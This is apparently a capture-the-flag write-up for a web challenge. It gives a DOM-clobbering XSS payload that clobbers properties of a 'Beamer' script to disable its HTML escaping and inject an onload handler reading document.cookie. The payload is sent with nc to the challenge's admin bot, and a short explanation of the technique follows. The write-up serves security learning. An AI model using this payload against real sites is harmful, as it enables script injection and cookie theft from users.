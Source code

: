 # Task

web: http://65.109.209.215:15000/

bot: echo URL | http://65.109.209.215:14000/

Please download the attachment


# Writeup

Payload:
```
echo '<p id="Beamer" name="pushDomain"></p><p id="Beamer"></p><a id="Beamer" name="customDomain" href="http:'"'"'/onload='"'"'console.log(document.cookie)'"'"'/x='"'"'"></a><a id="beamerOverlay"><p id="Beamer" name="escapeHtml"></p></a>' | nc 65.109.209.215 14000
```
Exlpain:
It was about using a (novel?) dom cloberring technique. In short, in non strict mode HTML collections are not configurable. Because of this, if you clobber window.Beamer.escapeHtml, even if it tries to set it, it won't work. Thanks to this you need to find a gadget to remove the escapeHtml cloberring node to make the window.Beamer.escapeHtml function undefined to bypass every HTML encoding calls :)
